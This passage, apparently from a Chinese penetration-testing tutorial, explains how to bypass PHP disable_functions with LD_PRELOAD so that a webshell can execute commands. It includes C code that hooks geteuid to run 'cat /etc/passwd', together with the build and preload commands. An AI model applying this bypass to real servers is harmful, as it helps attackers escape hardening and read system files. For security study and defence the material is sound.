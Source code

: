 
## 3. 利用环境变量 LD_PRELOAD 来绕过

- 使用条件
  - Linux 操作系统
  - `putenv()`
  - `mail` or `error_log`
  - 存在可写的目录, 需要上传 .so 文件

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

1. 我们先做个小实验看看 LD_PRELOAD 能否直接使用

```c
touch test.c
vim test.c

#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
2. 生成动态链接库

`gcc --share -fPIC test.c -o test.so`

3. 使用 LD_PRELOAD 加载刚生成的 `test.so`，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`

![](img/2.png)
